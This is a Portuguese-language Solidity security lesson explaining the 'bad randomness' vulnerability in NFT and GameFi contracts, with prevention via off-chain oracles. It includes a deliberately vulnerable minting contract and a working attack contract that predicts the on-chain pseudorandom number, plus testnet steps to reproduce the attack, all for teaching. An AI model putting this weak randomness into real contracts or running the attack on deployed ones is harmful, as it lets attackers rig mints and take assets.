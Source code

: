 # WTF Solidity Contrato Seguro: S07. Má Sorteio

Recentemente, tenho revisitado o estudo do Solidity para consolidar detalhes e escrever um "WTF Solidity guia introdutório" para iniciantes (os especialistas em programação podem procurar outros tutoriais). Será atualizado semanalmente com 1-3 aulas.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site Oficial da wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta aula, vamos falar sobre a vulnerabilidade de "Má Sorteio" em contratos inteligentes e métodos de prevenção. Essa vulnerabilidade é comum em projetos de NFT e GameFi, como Meebits, Loots, Wolf Game, entre outros.

## Números Pseudorandômicos

Muitas aplicações na Ethereum requerem o uso de números aleatórios, como para sortear `tokenId` de NFTs, abrir lootboxes, determinar resultados aleatórios em batalhas de GameFi, entre outros. No entanto, devido à transparência e determinismo dos dados na Ethereum, não existe um método para gerar números aleatórios como na maioria das outras linguagens de programação, como `random()`. Portanto, muitos projetos acabam utilizando métodos de geração de números pseudorandômicos na blockchain, como `blockhash()` e `keccak256()`.

Vulnerabilidade de Má Sorteio: Hackers podem calcular previamente os resultados desses números pseudorandômicos e manipulá-los conforme desejarem, como criar NFTs raros específicos em vez de sortear aleatoriamente. Para saber mais, consulte [WTF Solidity guia introdutório aula 39: Números Pseudorandômicos](./39_Random).

## Exemplo de Má Sorteio

Abaixo, vamos analisar um contrato de NFT com a vulnerabilidade de Má Sorteio: BadRandomness.sol.

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // Construtor, inicializa o nome e o símbolo da coleção de NFTs
    constructor() ERC721("", ""){}

    // Função de cunhagem: um NFT só é cunhado se o luckyNumber for igual ao número aleatório
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // cunhar
        totalSupply++;
    }
}
```

Este contrato possui a função principal `luckyMint()`, onde o usuário deve inserir um número de `0-99`, que, se coincidir com o número pseudorandômico gerado na blockchain, permite cunhar um NFT da sorte. A vulnerabilidade está no fato de que o usuário pode prever com precisão o número aleatório gerado e cunhar o NFT desejado.

Agora, vamos criar um contrato de ataque `Attack.sol`.

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Calcular previamente o número aleatório
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Realizar o ataque usando o luckyNumber
        nftAddr.luckyMint(luckyNumber);
    }
}
```

A função de ataque `attackMint()` recebe o endereço do contrato `BadRandomness` como parâmetro. Nela, calculamos o número aleatório `luckyNumber` e o passamos como argumento para a função `luckyMint()` para realizar o ataque. Como `attackMint()` e `luckyMint()` são chamados no mesmo bloco, o `blockhash()` e o `block.timestamp` são os mesmos, gerando o mesmo número aleatório.

## Reprodução no Remix

Como o Remix com Remix VM não suporta a função `blockhash()`, é necessário implantar os contratos na testnet Ethereum para reproduzir o ataque.

1. Implantar o contrato `BadRandomness`.

2. Implantar o contrato `Attack`.

3. Passar o endereço do contrato `BadRandomness` como parâmetro para a função `attackMint()` do contrato `Attack` e executar o ataque.

4. Usar a função `balanceOf` do contrato `BadRandomness` para verificar o saldo de NFTs do contrato de ataque e confirmar o sucesso do ataque.

## Métodos de Prevenção

Normalmente, utilizamos números aleatórios gerados fora da blockchain por meio de projetos de oráculos, como o Chainlink VRF, para prevenir esse tipo de vulnerabilidade. Esses números aleatórios são gerados fora da blockchain e depois enviados para a mesma, garantindo que sejam imprevisíveis. Para saber mais, consulte [WTF Solidity guia introdutório aula 39: Números Pseudorandômicos](./39_Random).

## Conclusão

Nesta aula, abordamos a vulnerabilidade de Má Sorteio em contratos inteligentes e apresentamos um método simples de prevenção: utilizar números aleatórios gerados fora da blockchain por meio de projetos de oráculos. Projetos de NFT e GameFi devem evitar o uso de números pseudorandômicos na blockchain para sorteios, a fim de evitar possíveis ataques de hackers.

